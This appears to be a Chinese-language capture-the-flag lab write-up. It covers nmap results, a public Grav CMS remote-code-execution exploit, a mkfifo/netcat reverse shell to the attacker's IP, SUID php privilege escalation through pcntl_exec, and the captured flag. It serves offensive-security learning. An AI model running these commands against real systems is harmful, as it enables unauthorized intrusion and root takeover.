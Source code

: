 nmap 的結果
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

網頁打開進去後是一個 grav 的 CMS 網站 都沒有可以利用的地方 上網有找到可以 RCE 的 [exploit](https://github.com/CsEnox/CVE-2021-21425/tree/main) (這裡怪怪的 沒有版本號或什麼提示)

透過 bind shell 建立連線 `python3 exploit.py -c 'rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.45.201 80 > /tmp/f' -t http://192.168.186.12/grav-admin` (用 reverse=hell generate 時一直失敗 之後才發現因為 reverseshell generate 的 nc 有加 -i 這樣變成是等人來連 所以要把 -i 拿掉 讓他自己去連)

連上後無法 `sudo -l` 使用 `find / -perm -4000 2>/dev/null` 有看到 `/usr/bin/php7.4` 應該有 SUID 可以使用 在 [GTFOBins](https://gtfobins.github.io/gtfobins/php/?source=post_page-----627bc41a86ef--------------------------------) 找到 可以利用 `./php -r "pcntl_exec('/bin/sh', ['-p']);"` 提權
於是輸入 `/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"` 成功提權
![image](https://hackmd.io/_uploads/B1Z2QGZryg.png)

拿到 flag `66cc737cd3c7b3a913d9b927a19336af`
![image](https://hackmd.io/_uploads/Hkr6mfWrkg.png)

